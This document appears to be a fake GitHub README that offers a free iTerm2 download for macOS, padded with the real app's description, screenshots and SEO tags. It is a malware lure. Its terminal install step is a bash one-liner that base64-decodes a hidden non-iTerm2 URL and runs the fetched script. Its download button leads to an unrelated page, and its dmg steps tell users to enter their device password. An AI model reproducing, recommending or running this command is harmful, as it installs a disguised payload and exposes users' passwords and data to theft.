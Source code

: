 # iTerm2 For Mac OS — Download Free 🖥️
![logo](https://upload.wikimedia.org/wikipedia/commons/thumb/3/31/ITerm2_v3.4_icon.png/250px-ITerm2_v3.4_icon.png)

iTerm2 is a powerful, open-source terminal emulator for macOS, designed to enhance your command-line experience with advanced features and customization. Follow the instructions below to install iTerm2 on your Mac and supercharge your workflow. 🚀

[![Download Now](https://img.shields.io/badge/Download%20iTerm2-Now-5856D6?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/iterm2)

If the download button doesn't work, follow the manual installation instructions below using the terminal.

## 📦 How to Install iTerm2 For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with iTerm2

- 🖥️ **Advanced Terminal Features**: Split panes, hotkey window, and searchable history.
- 🎨 **Customizable Interface**: Themes, transparency, and font options for a personalized look.
- 🔗 **Shell Integration**: Seamless integration with zsh, bash, and other shells.
- 🚀 **Performance Boost**: Optimized for speed and efficiency in complex workflows.
- 🌐 **Remote Access Tools**: Built-in support for SSH, tmux, and remote sessions.
- 🔍 **Smart Search**: Find text in your terminal with regex and highlighting.

## About iTerm2

iTerm2 is a free, open-source terminal emulator built for macOS, offering a robust alternative to the default Terminal app. Tailored for developers, system administrators, and power users, iTerm2 combines macOS-native design with powerful features like split panes, customizable hotkeys, and shell integration. Its open-source nature ensures transparency, security, and continuous improvements driven by a vibrant community, making it the go-to terminal emulator for macOS users.

Unlike standard terminals, iTerm2 supports advanced customization, allowing users to create a workspace that suits their needs. With thousands of themes and profiles, you can transform iTerm2’s appearance to match your workflow, whether you prefer a minimalist setup or a vibrant, colorful interface. Features like tmux integration and automatic profile switching enhance productivity, especially for those managing multiple servers or projects. iTerm2’s lightweight design ensures it runs smoothly, even during resource-intensive tasks.

iTerm2 excels in providing tools for remote work and automation. Its support for SSH, Mosh, and triggers allows users to streamline repetitive tasks, while features like inline image rendering and password management simplify complex workflows. Whether you’re scripting, debugging, or managing cloud infrastructure, iTerm2’s flexibility and performance make it an essential tool for macOS power users.

As a free and open-source project, iTerm2 is accessible to everyone, with regular updates that introduce new features and maintain compatibility with the latest macOS versions. By downloading iTerm2, you’re gaining a terminal emulator that empowers you to work smarter, faster, and with greater control. Join the iTerm2 community and elevate your command-line experience today.

## Advantages of iTerm2

- ⚡ **Lightning-Fast Performance**: Optimized for high-speed terminal operations.
- 🖌️ **macOS-Native Aesthetics**: Seamlessly integrates with macOS Dark Mode and UI.
- 🔒 **Secure and Open-Source**: Community-vetted code ensures safety and reliability.
- 🌍 **Global Compatibility**: Supports multiple shells and international character sets.
- 🛠️ **Extensive Customization**: Tailor every aspect of your terminal experience.
- 📊 **Productivity Boost**: Features like triggers and profiles streamline workflows.

## 🖼 Preview

![iTerm2 Split Panes](https://iterm2.com/img/screenshots/find.png)
*Using split panes for multitasking in iTerm2*

![iTerm2 Themes](https://iterm2.com/img/screenshots/split_panes.png)
*Customizing iTerm2 with a vibrant theme*

![iTerm2 Shell Integration](https://iterm2.com/img/screenshots/copy_mode.png)
*Shell integration for enhanced productivity*


## 🔍 Tags

iterm2, iterm 2, iterm2 for mac, download iterm, iterm2 mac, download iterm for mac, iterm app, iterm download, iterm2 download
